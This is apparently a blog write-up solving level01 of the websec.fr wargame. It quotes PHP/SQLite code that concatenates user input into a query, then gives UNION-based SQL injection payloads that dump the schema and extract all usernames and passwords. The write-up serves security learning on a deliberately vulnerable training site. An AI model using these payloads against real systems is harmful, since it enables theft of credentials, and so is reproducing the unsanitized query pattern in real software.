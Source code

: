 # Websec.fr writeup

## Index
* [Level01](#level01-\--babysteps)

---

In this blog we solve the levels hosted in [websec.fr](https://websec.fr/).

As the authors describe, it "is a wargame site providing various web-based challenges". 

The levels are divided in 4 (+1) categories: babysteps, easy, medium, hard and a bonus category.

I suggest to attempt the challenges on your own before reading the solutions.

Let's start. 

## level01 - babysteps

The web application employs PHP and SQLite. In fact, if we click on *This application on the bottom* we are redirected to */source.php* and here we can read the source code. 

Analyzing it, we immediately note the vulnerable line of the code: it lies on the *LevelOne::doQuery()* function. Specifically, no sanitization is executed on the user input. 

```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; 
        $getUsers = $pdo->query($query); //[bob01: vulnerable line: no input sanitization]
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

As we know, each SQLite database contains a *schema table* that stores the schema for that database, i.e., *sqlite_schema* (sqlite_schema can have different name alternatives, see [link](https://www.sqlite.org/schematab.html)).

Then, by simply running an UNION query, namely:

```
-1 union select 1,sql from sqlite_master --
```

we get the following output:

![img1](/images/websec/img1.png?raw=true) 

Now, we know that the *users* table contains three columns, that are: id, username and password; we can then exploit the *GROUP_CONCAT()* function ([link](https://www.sqlitetutorial.net/sqlite-group_concat/) on how to use it):

```
-1 union select username,group_concat(password, ';') from users --
```

and get the flag:

![img2](/images/websec/img2.png?raw=true)
